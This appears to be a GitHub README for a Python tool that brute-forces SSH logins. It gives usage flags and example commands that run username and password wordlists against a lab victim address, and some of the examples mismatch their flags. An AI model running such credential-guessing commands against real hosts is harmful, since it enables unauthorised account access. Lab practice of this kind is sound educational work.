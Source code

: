 
# Brute Force SSH
    This is a simple script to brute force SSH by Python for educational purpose
## Usage

```python
python3 brute_force_ssh <target> <port> <options>

-u      --usernanme              Username of remote host
-p      --password               Password of remote host
-uf     --userfile               Username filepath
-pf     --passfile               Password filepath
```

## Examples
Attacker machine: 192.168.72.130

Victim machine: 192.168.72.134

SSH port: 22

Remote user: kma2023-hvktmm2023

### Scenario 1: Attacking password
```python
python3 brute_force_ssh 192.168.72.134 22 -u kma2023 -uf passwords.txt
```

![App Screenshot](https://github.com/lelong2304/Brute-Force-SSH/blob/main/result_scenario_1.PNG)

### Scenario 2: Attacking username
```python
python3 brute_force_ssh 192.168.72.134 22 -u username.txt -p hvktmm2023
```

![App Screenshot](https://github.com/lelong2304/Brute-Force-SSH/blob/main/result_scenario_2.PNG)

### Scenario 3: Attacking both username and password
```python
python3 brute_force_ssh 192.168.72.134 22 -uf username.txt -pf passwords.txt
```

![App Screenshot](https://github.com/lelong2304/Brute-Force-SSH/blob/main/result_scenario_3.PNG)

## Reference
https://mohamedaezzat.github.io/posts/sshbruteforcer/